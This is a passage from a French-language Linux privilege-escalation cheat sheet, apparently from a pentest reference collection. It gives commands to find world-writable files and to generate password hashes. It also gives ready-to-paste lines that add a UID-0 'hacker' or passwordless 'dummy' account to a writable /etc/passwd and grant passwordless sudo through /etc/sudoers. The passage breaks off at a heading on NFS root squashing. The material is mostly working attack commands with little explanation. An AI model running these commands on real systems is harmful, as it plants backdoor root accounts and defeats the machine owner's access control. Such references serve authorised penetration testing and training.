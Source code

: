 Outil: [wildpwn](https://github.com/localh0t/wildpwn)

## Fichiers avec les droits en écriture

Lister tous les fichiers avec les droits en écriture sur le système.

```powershell
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} ; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### /etc/passwd avec les permissions en écriture

On génère d'abord un mot de passe avec la commande suivante.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

On ajoute ensuite l'utilisateur `hacker` et on ajoute le mot de passe généré.

```powershell
hacker:MOT_DE_PASE_GENERE:0:0:Hacker:/root:/bin/bash
```

Exemple: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

On peut désormais utiliser la commande `su` avec `hacker:hacker`

En alternative, on peut utiliser les lignes suivantes pour ajouter un utilisateur 'débile' sans mot de passe.
:warning: Vous pouvez dégrader la sécurité de la machine

```powershell
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: Sur les plateformes BSD `/etc/passwd` est situé dans `/etc/pwd.db` et `/etc/master.passwd`. Le `/etc/shadow` est également renommé en `/etc/spwd.db`. 

### /etc/sudoers avec les permissions en écriture

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# On utilise sudo sans mot de passe :)
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

## Ecrasement des données NFS Root
